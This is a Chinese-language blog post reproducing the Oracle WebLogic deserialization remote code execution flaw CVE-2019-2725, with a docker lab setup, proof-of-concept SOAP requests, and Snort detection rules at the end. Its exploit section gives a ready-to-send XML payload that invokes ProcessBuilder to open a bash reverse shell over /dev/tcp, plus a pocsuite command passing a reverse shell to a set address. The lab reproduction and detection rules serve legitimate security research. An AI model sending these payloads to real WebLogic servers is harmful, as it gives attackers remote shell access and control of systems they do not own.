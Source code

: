 ```yaml
---
layout: post
title:  "Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725)" 
date:   2019-08-08 17:10:51
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725)
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```

## Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725)

## 漏洞概述

由于在反序列化处理输入信息的过程中存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，利用该漏洞获取服务器权限，实现远程代码执行。

### 漏洞环境搭建

docker 快速启动：

```bash
docker pull ismaleiva90/weblogic12

docker run -d -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```

访问：ip:7001/_async/AsyncResponseService 查看 wls9-async 组件是否启动成功
![avatar](/assets/img/posts/20190426101059760.png)
nmap 检测插件 [weblogic.nse](https://github.com/Rvn0xsy/nse_vuln/tree/master/weblogic/CNVD-C-2019-4814) 


### 漏洞复现

#### Poc：
* 通用无回显 poc

向/_async/AsyncResponseService 发送 XMLPoc，连接类型 content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="POC">
<array class="xx" length="0">
</array>
<void method="start"/>
</void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```

如果 res.status_code == 202 则可以判断存在漏洞

* 特定版本可回显 poc

向 /wls-wsat/CoordinatorPortType 传递恶意构建的 xml 请求可以触发回显信息。通过使用 ls 命令查看目录下是否存在 server bin 等必要目录，如果存在这些必要目录，则判定 poc 执行成功
Version = 10.*
```html
header:
"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
"Content-Type": "text/xml",
"cmd": "whoami"
body:
参考下面 pocsuite poc 部分
```
Version = 12
```html
header:
"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
"Content-Type": "text/xml"
body：
参考下面 pocsuite poc 部分
```


#### Exp：
* exp_for_asy

向/_async/AsyncResponseService 发送 XMLPoc，连接类型 content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
* exp_for_wls
参考下面 pocsuite exp 部分
#### Pocsuite
* poc

[poc.py](https://github.com/co0ontty/pocdb/blob/master/pocs/cve_2019_2725.py)
```bash
pocsuite -r poc.py -u 172.16.5.162 
```
* exp

[exp.py](https://github.com/co0ontty/pocdb/blob/master/exps/cve_2019_2725.py)
```bash
pocsuite -r exp.py -u 172.16.5.162 --extra-params="{'cmd':'bash -i &gt;&amp; /dev/tcp/172.16.5.1/1136 0&gt;&amp;1'}"
```

### 流量检测

规则：通过检测目标对 /_async/AsyncResponseService 目录的请求，确定目标请求使用存在漏洞的组件，如果在对 /_async/AsyncResponseService 的请求中存在 content-type 为 ‘text/xml’ 的请求且请求内容存在  `<soapenv><soapenv/>` (\<soapenv>用于创建自定义命名空间)则判定存在攻击行为 
```snort
# CVE-2017-2725 & CVE-2017-2729 
alert tcp $EXTERNAL_NET any -> $HOME_NET $HTTP_PORTS (msg: "SERVER-ORACLE Oracle Weblogic _async deserialization RCE(CVE-2019-2725)"; flow: established, to_server; flowbits:set,30000002; content: "POST"; nocase; http_method; content: "wls-wsat"; http_uri; pcre: "/(oracle\.toplink\.internal\.sessions\.UnitOfWorkChangeSet|org\.slf4j\.ext\.EventData)/iP"; content: "<class>";reference: cve, 2019-2725; reference: url, medium.com/@knownseczoomeye/knownsec-404-team-oracle-weblogic-deserialization-rce-vulnerability-0day-alert-90dd9a79ae93; reference: url, github.com/ptresearch/AttackDetection; metadata: Open Ptsecurity.com ruleset; classtype:shellcode-detect;sid: 30000002; rev: 2;)
alert tcp $EXTERNAL_NET any -> $HOME_NET $HTTP_PORTS (msg: "SERVER-ORACLE Oracle Weblogic _async deserialization RCE(CVE-2019-2725)"; flow: established, to_server; flowbits:set,30000002; content: "POST"; nocase; http_method; content: "async"; http_uri; pcre: "/(oracle\.toplink\.internal\.sessions\.UnitOfWorkChangeSet|org\.slf4j\.ext\.EventData)/iP"; content: "<class>";reference: cve, 2019-2725; reference: url, medium.com/@knownseczoomeye/knownsec-404-team-oracle-weblogic-deserialization-rce-vulnerability-0day-alert-90dd9a79ae93; reference: url, github.com/ptresearch/AttackDetection; metadata: Open Ptsecurity.com ruleset; classtype:shellcode-detect;sid: 30000003; rev: 2;)
alert tcp $EXTERNAL_NET any -> $HOME_NET $HTTP_PORTS (msg: "SERVER-ORACLE Oracle Weblogic _async deserialization RCE(CVE-2019-2725)"; flowbits:isset,30000002; content: "200"; http_stat_code; reference: cve, 2019-2725; reference: url, medium.com/@knownseczoomeye/knownsec-404-team-oracle-weblogic-deserialization-rce-vulnerability-0day-alert-90dd9a79ae93; reference: url, github.com/ptresearch/AttackDetection; metadata: Open Ptsecurity.com ruleset; classtype:shellcode-detect;sid: 30000004; rev: 2;)
alert tcp $EXTERNAL_NET any -> $HOME_NET $HTTP_PORTS (msg: "SERVER-ORACLE Oracle Weblogic wls-wsat deserialization RCE (CVE-2019-2729)"; flow: established, to_server; content: "POST"; nocase; http_method; content: "wls-wsat"; http_uri; pcre: "/(oracle\.toplink\.internal\.sessions\.UnitOfWorkChangeSet|org\.slf4j\.ext\.EventData)/iP"; pcre: "/<array method=.+>/iP";reference: cve, 2019-2729; reference: url, medium.com/@knownseczoomeye/knownsec-404-team-oracle-weblogic-deserialization-rce-vulnerability-0day-alert-90dd9a79ae93; reference: url, github.com/ptresearch/AttackDetection; metadata: Open Ptsecurity.com ruleset;classtype:shellcode-detect;sid: 30000005; rev: 1;)
alert tcp $EXTERNAL_NET any -> $HOME_NET $HTTP_PORTS (msg: "SERVER-ORACLE Oracle Weblogic wls-wsat deserialization RCE (CVE-2019-2729)"; flow: established, to_server; content: "POST"; nocase; http_method; content: "async"; http_uri; pcre: "/(oracle\.toplink\.internal\.sessions\.UnitOfWorkChangeSet|org\.slf4j\.ext\.EventData)/iP"; pcre: "/<array method=.+>/iP";reference: cve, 2019-2729; reference: url, medium.com/@knownseczoomeye/knownsec-404-team-oracle-weblogic-deserialization-rce-vulnerability-0day-alert-90dd9a79ae93; reference: url, github.com/ptresearch/AttackDetection; metadata: Open Ptsecurity.com ruleset;classtype:shellcode-detect;sid: 30000006; rev: 1;)
```